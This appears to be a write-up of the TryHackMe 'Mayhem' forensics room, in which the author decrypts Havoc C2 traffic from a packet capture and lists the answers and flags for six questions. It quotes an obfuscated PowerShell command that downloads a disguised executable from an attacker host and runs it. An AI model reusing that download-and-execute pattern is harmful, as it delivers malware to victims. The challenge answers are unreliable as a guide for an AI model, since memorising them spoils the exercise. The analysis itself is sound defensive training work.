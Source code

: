 # TryHackMe: Mayhem Challenge  

**Room URL:** [https://tryhackme.com/room/mayhemroom](https://tryhackme.com/room/mayhemroom)

---

## 🧠 Scenario

Beneath the tempest's roar, a quiet grace,  
Mayhem's beauty in a hidden place.  
Within the chaos, a paradox unfolds,  
A tale of beauty, in disorder it molds.

Click on the **Download Task Files** button at the top of this task. You will be provided with an `evidence.zip` file. Extract the contents and begin your analysis.

---

## 🔍 Analysis & Questions

> The script is trying to download `notepad.exe` from the following PowerShell commands:
- `$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";`
- `$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";`
- `Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;`
- `$65lmAtnzW8 = New-Object System.Net.WebClient;`
- `$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx); Start-Process -Filepath $LA4rJgSPpx`

![Download command](assets/image-9.png)

> First packet when the GET request was sent:
![GET request packet](assets/image-10.png)

> The `notepad.exe` tries to execute `demonx64.exe`:
![Demon process](assets/image-11.png)

> Exported the file and ran `md5sum`, then checked it on VirusTotal:
![VirusTotal hash](assets/image-12.png)

> Found the name "Havoc" and researched it:
![Havoc identified](assets/image-13.png)

Refer to this write-up on decrypting Havoc C2:
[https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide](https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide)

![Havoc article](assets/image-14.png)

> AES Key and IV found:
- AES Key: `946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca`
- IV Key: `8cd00c3e349290565aaa5a8c3aacd430`

Used this parser to decrypt and analyze the Havoc C2 traffic:  
[https://github.com/Immersive-Labs-Sec/HavocC2-Forensics/blob/main/PacketCapture/havoc-pcap-parser.py](https://github.com/Immersive-Labs-Sec/HavocC2-Forensics/blob/main/PacketCapture/havoc-pcap-parser.py)

> Output from running the script:
![Script output 1](assets/image-15.png)  
![Script output 2](assets/image-3.png)

---

### Q1: What is the SID of the user that the attacker is executing everything under?  
**Answer:** `S-1-5-21-679395392-3966376528-1349639417-1103`  
![SID](assets/image-16.png)

---

### Q2: What is the Link-local IPv6 Address of the server?  
**Answer:** `fe80::e134:1b0c:c8d5:3020%6`  
![IPv6](assets/image-5.png)

---

### Q3: The attacker printed a flag for us to see. What is that flag?  
**Answer:** `THM{HavOc_C2_DeCRypTing_is_Fun_Fun_FUN}`  
![Flag](assets/image-6.png)

---

### Q4: The attacker added a new account as a persistence mechanism. What is the username and password of that account?  
**Answer:** `administrato:WfD3hz3AXZ4n`

---

### Q5: The attacker found an important file on the server. What is the full path of that file?  
**Answer:** `C:\Users\paco\Desktop\Files\clients.csv`  
![CSV path](assets/image-7.png)

---

### Q6: What is the flag found inside the file from question 5?  
**Answer:** `THM{I_Can_SEE_ThE_fiL3_YoU_ToOk}`  
![CSV flag](assets/image-8.png)
